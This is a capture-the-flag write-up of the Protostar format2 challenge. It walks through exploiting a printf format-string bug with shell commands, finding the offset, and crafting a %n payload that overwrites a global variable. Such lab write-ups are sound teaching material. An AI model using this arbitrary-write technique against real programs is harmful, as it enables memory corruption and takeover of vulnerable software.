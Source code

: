 ```yaml
---
layout: post
title: "Protostar format00 error"
tags: [protostar]
comments: false
---
```


We are given a source code for this challenge.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

if target equals to 64 we win.
and we can see format string vulnerability happenes in printf(buffer)

Let's do what we did for format01 which is giving AAAA and looking for the offset

```
AAAA200.b7fd8420.bffff614.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
target is 0 :(
user@protostar:/opt/protostar/bin$ (python -c print' "AAAA"+"%x."*4 ') | ./format2 
AAAA200.b7fd8420.bffff614.41414141.
target is 0 :(
```

We can see that the offset is 4

So if we change AAAA to the target variable address and change the last %x to %n we can write some values in to target

target address
```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss   00000004              target

```

switch 
```
user@protostar:/opt/protostar/bin$ (python -c print' "\xe4\x96\x04\x08"+"%x"*3+"%n" ') | ./format2
�200b7fd8420bffff614
target is 23 :(

```

We can see that target only contains a value of 23. This happened because %n put the number of characters that were written to target so what we can do is increasing the number of characters by changing its padding size which can be like

```
%10x
```

Since 64-23 = 41 by doing some simple math we can do 

```
user@protostar:/opt/protostar/bin$ (python -c 'print "\xe4\x96\x04\x08"+"%44x"+"%x"*2+"%n"') | ./format2
�                                         200b7fd8420bffff614
you have modified the target :)
```